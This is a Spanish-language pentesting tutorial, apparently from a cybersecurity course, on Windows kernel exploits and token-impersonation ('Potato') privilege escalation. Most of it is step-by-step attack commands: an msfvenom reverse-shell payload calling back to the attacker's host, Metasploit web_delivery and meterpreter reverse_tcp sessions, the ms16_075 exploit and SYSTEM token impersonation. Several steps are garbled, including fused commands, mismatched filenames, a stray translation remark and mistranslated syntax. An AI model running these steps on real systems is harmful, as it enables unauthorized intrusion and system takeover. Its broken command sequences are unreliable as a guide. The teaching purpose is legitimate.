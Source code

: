 ```yaml
---
title: "Entendiendo las Explotaciones del Kernel"
subtitle: "Cómo los Atacantes Usan Vulnerabilidades para Obtener Control del Sistema y Realizar Ataques de Escalada de Privilegios"
tags: ["pentesting", "ciberseguridad"]
authors: ["blindma1den", "lorenagubaira"]
---
```


## Explotaciones del kernel

Un Kernel es el componente central del sistema operativo y actúa como un puente entre los componentes de hardware y las aplicaciones de software.

Cuando un sistema operativo se carga en la memoria, el kernel se carga primero y permanece en la memoria hasta que el sistema operativo se apaga nuevamente.

El kernel es responsable de tareas de bajo nivel, como la administración de discos, la administración de tareas y la administración de memoria.

Inicialmente, estos exploits se facilitan una vez que logramos establecernos en nuestro sistema de destino, por lo que después de obtener acceso a través de metasploit (preferiblemente), ejecute esto /post/multi/recon/local_exploit_suggestery verifique si Kitrap0d existe.

### Explotación Kitrap0d

Inicialmente crearemos un shell inverso y lo cargaremos en el sistema de destino `msfvenom -p windows/shell_reverse_tcp LHOST=yourIP LPORT=555 -f aspx > myfile.aspx`

Aquí tienes el texto reordenado en Markdown para mejorar la legibilidad:

- `-p` = Carga útil (aquí un shell inverso simple)

- `LHOST` = Dirección IP actual del sistema

- `LPORT` = Puerto de su elección

- `-f` = Tipo de archivo (a qué tipo de archivo va el sistema para trabajar)

- `>` = Guardar el archivo de salida con un nombre de archivo

De alguna manera cargue este archivo en el sistema de destino. Aquí usamos ftp como ejemplo para cargar

```bash
ftp 10.0.0.1
```

La contraseña es `anonymous`.
Luego, cargue el archivo con el siguiente comando:

```bash
put manual.aspx nc -nvlp 555
```

Vaya a la dirección IP/sitio e invoque la carga útil.

### Potato Attacks

Supongamos que tenemos un shell en la máquina con Windows y después de verificar whoami /priv descubrimos que tenemos privilegios de token de suplantación.

![NoSQL23](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/NoSQL23.png?raw=true)

Lo que nos ayuda a obtener NT/Autoridad mediante un ataque de papa, entonces se puede hacer lo siguiente:

> Habrá dos instancias en este punto

1. Debemos tener un pie en el sistema y verificar si el sistema tiene algún privilegio de identidad (figura anterior).

2. Es el shell de Metasploit que estamos a punto de trazar.

### En Metasploit

1. Usa el módulo de Metasploit para la entrega web:

```bash
use exploit/multi/script/web_delivery
```

2. Establece el objetivo como PowerShell (PSH):

```bash
set TARGET 0
```

3. Establece la carga útil como `windows/meterpreter/reverse_tcp`:

```bash
set PAYLOAD windows/meterpreter/reverse_tcp
```

4. Configura LHOST y SRVHOST como su dirección IP.

5. Ingrese a ejecutar, obtendremos una carga útil, la copiaremos y la pegaremos en la primera instancia donde esté presente el caparazón de apoyo inicial.

![NoSQL24](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/NoSQL24.png?raw=true)

6. Pegue el comando anterior en la primera instancia.

7. Después de pegar, ingrese a **session1** y escriba `getprivs`.

8. Compruebe si es arquitectura x64 o x86 escribiendo `getuid`:

```bash
run post/multi/recon/local_exploit_suggester
```

9. Verifique todos los exploits disponibles que se pueden aprovechar:

```bash
run windows/local/ms16_075_reflection
```

10. Establece la sesión en `1`:

```bash
set SESSION 1
```

11. Establece LHOST en la IP de Kali.

12. Configura LPORT en cualquier puerto en el que la sesión 1 no esté escuchando.

13. Establece la carga útil:

```bash
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```

14. Corre el exploit:

```bash
exploit
```

15. Carga el módulo `incognito` en Meterpreter:

```bash
load incognito
```

![NoSQL25](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/NoSQL25.png?raw=true)

16. Escriba: `list_tokens -u` y observe **NT AUTHORITY\SYSTEM**.

17. Imite el token de **NT AUTHORITY\SYSTEM**:

```bash
impersonate_token "NT Authority\SYSTEM"
```

18. Escriba `shell` para obtener un shell con privilegios de autoridad.

En el caso de Labs y boxes, puede haber alguna situación de flujo de datos que se utiliza para ocultar la información de un archivo. En esos casos, podemos usar este blog: [https://blog.malwarebytes.com/101/2015/07/introduction-to -flujos-de-datos-alternativos/](https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/)

Frases simples podrían ser **dir /R** (para búsqueda recursiva de archivos en el directorio) **más <nombre del archivo que se desea buscar**.

### Referencias:

> SecWiki/exploits-del-kernel-de-windows: exploits-del-kernel-de-windows Windows平台提权漏洞集合 (github.com)
